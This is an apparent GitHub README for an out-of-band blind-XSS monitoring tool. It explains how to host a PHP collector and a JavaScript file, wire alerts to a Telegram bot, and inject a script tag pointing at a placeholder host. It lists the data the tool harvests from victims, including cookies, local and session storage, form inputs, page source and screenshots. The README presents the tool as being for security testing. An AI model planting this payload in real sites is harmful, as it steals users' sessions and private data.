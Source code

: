 # XSS Monitor tool for OOB Blind-XSS
 The XSS-Monitor Tool is provided for educational purposes only.
 
This tool is designed for testing XSS vulnerabilities and helping make the Internet and Web applications more secure. By using this tool, you get this item from user load xss : 

Cookies ,
Location,
UserAgent,
User ip,
Local Data,
Session Data,
Inputs item,
Page HTML source code,
Page Title,
ScreenShot of page

## How to install :

  1.Upload alert.php , eksss.js on your host
  
  2.change "https://YourSiteName.com/alert.php" in eksss.js to your host and path of PHP file and save it.
  
  3.open alert.php and set your information of Database config 

  ```php
      $servername = "localhost";
      $username = "UserDB_xss";
      $password = "PAS-DB";
      $dbname = "DB-name_monitor"
  ```

  4.set Telegram Bot information and ChatID Acount which you want to be notified :

  ```php
      $token = "**********Bot_Token***************";
      $chat_id = "****YourTelegramChatID";
  ```
      
  5.save alert.php 

## How to Use:

  use this payload for test :

          <script src=https://YourSiteName.com/eksss.js></script>
  
